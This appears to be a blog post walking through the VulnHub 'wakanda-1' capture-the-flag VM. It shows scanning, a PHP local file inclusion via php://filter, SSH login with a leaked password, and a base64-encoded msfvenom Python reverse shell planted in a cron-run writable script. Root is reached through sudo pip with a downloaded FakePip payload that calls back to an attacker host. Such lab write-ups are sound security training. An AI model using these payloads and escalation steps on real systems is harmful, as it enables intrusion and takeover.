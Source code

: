 ```yaml
---
layout: post-detail
title: CTF challenge - wakanda
date: 2018-09-24
categories: CTF
description: Walkthrough on wakanda-1 from https://www.vulnhub.com/entry/wakanda-1,251/
img-url: ''
comments: true
---
```


# Download the iso

Image is here:  https://www.vulnhub.com/entry/wakanda-1,251/

# Target

Syn scan.

    $ sudo nmap -sS 192.168.2.0/24

```sh
Nmap scan report for 192.168.2.217
PORT     STATE SERVICE
80/tcp   open  http
111/tcp  open  rpcbind
3333/tcp open  dec-notes
MAC Address: 08:00:27:3C:1E:DB (Oracle VirtualBox virtual NIC)
```

The target contain a web server on port 80.
Now, a scan `tcp` with `Version`.

    $ sudo nmap -sT -sV -A -p- 192.168.2.217

```txt
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Vibranium Market
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33015/tcp  status
|_  100024  1          41724/udp  status
3333/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
33015/tcp open  status  1 (RPC #100024)
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A try with netcat:

    $ nc 192.168.2.217 3333
    SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u4

We found the version of ssh and debian.

A scan with dirb:

    $ dirb http://192.168.2.217 /usr/share/dict/dirb-wordlists/common.txt 

```txt
---- Scanning URL: http://192.168.2.217/ ----
+ http://192.168.2.217/backup (CODE:200|SIZE:0)
+ http://192.168.2.217/index.php (CODE:200|SIZE:1527)
+ http://192.168.2.217/secret (CODE:200|SIZE:0)
+ http://192.168.2.217/server-status (CODE:403|SIZE:301)
+ http://192.168.2.217/shell (CODE:200|SIZE:0)
```

No formular, pages `/backup`, `/secret`, `/shell` are void... `/server-status` need permission... ???

The source code of `/index.php` include a comment who point on a `/?lang=fr` parameter. At bottom, we found the name `mamadou`.

This param is vulnerable to a Local File Inclusion (LFI), according this post on [medium.com](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) or [securityidiots.com](http://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html) , i've try many things here.  

The url `?lang=php://filter/convert.base64-encode/resource=index` reveal something.

    $ curl http://192.168.2.217/\?lang\=php://filter/convert.base64-encode/resource\=index -o secret

We purge all html content from the file `secret`, and we will able to decode the content.

    $ cat secret | base64 -d 

```php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>
```

Try user and pass on ssh:

    $ ssh mamadou@192.168.2.217 -p 3333
    password: Niamey4Ever227!!!
    
```python
>>> help()

Welcome to Python 2.7!  This is the online help utility.
```

Ok... we'll switch on a bash shell.

    >>> import pty;pty.spawn("bash")
    $ uname -a
    $ cd 
    $ cat flag1.txt
    Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc

The second flag is in `/home/devops`.

    $ cat /home/devops/flag2.txt
    cat: /home/devops/flag2.txt: Permission denied

    $ ls -l /home/devops/
    -rw-r----- 1 devops developer 42 Aug  1 15:57 flag2.txt

We need find a way to become `devops` or member of group `developer` for read the key.

    $ find / -user devops 2>/dev/null
    /srv/.antivirus.py
    /tmp/test
    /home/devops
    /home/devops/.bashrc
    /home/devops/.profile
    /home/devops/.bash_logout
    /home/devops/flag2.txt

    $ ls -l /srv/.antivirus.py
    -rw-r--rw- 1 devops developer 36 Aug  1 20:08 /srv/.antivirus.py

Nice, a file where we can write something, like a reverse shell to become `devops:developer`.

    $ msfvenom -p cmd/unix/reverse_python LHOST=192.168.2.111 LPORT=1234 -f raw

```txt
Payload size: 457 bytes
python -c "exec('aW1wb3J0IHNvY2tldCAgLCAgc3VicHJvY2VzcyAgLCAgb3M7ICAgICAgIGhvc3Q9IjE5Mi4xNjguMi4xMTEiOyAgICAgICBwb3J0PTEyMzQ7ICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICAgcy5jb25uZWN0KChob3N0ICAsICBwb3J0KSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMCk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMik7ICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"
```

Modify the file `/srv/.antivirus.py` like this:

```python
#open('/tmp/test','w').write('test')
exec('aW1wb3J0IHNvY2tldCAgLCAgc3VicHJvY2VzcyAgLCAgb3M7ICAgICAgIGhvc3Q9IjE5Mi4xNjguMi4xMTEiOyAgICAgICBwb3J0PTEyMzQ7ICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICAgcy5jb25uZWN0KChob3N0ICAsICBwb3J0KSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMCk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMik7ICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))
```
Open a socket on your machine:

    $ nc -lvp 1234

And the script will start by itself like it use cron.

    $ id 
    uid=1001(devops) gid=1002(developer) groups=1002(developer)
    cat /home/devops/flag2.txt
    Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098

To read the last key, we need permission of `root`, so with sudo or anything.

    sudo -l
    User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip

Devops can execute `/usr/bin/pip` without password...

    ls -l /usr/bin/pip
    -rwxr-sr-- 1 root developer 281 Feb 27  2015 /usr/bin/pip

Unfortunately, we can't write on this file to execute a reverse shell.

After googling thoroughly, we can use `fakepip`.  
Download the file from [fakepip](wget https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py)

    $ wget -cv https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py

Edit this file to change the `RHOST` and `lport`.

```python
RHOST = '192.168.2.111'  # change this
lport = 3333
```
Next, we need a find a way to upload our payload. We create a simple server with python, you can use `darkhttpd`, `ngrok` too or upload the file at `https://transfer.sh`.

    $ python2.7 -m SimpleHTTPServer 4444

From the vm, wget -cv http://192.168.0.111:4444/setup.py

Start netcat:

    $ nc -lvp 443

With ou user `devops`, launch pip:

    $ sudo pip install . --upgrade --force-reinstall

You are root now:

```txt
listening on [any] 3333 ...
192.168.2.217: inverse host lookup failed:
connect to [192.168.2.111] from (UNKNOWN) [192.168.2.217] 57633
root@Wakanda1:/tmp/pip-QVoVOV-build#
```
    cd
    cat root.txt

```txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\


Congratulations You are Root!

821ae63dbe0c573eff8b69d451fb21bc
```

This vm was very instructive :)
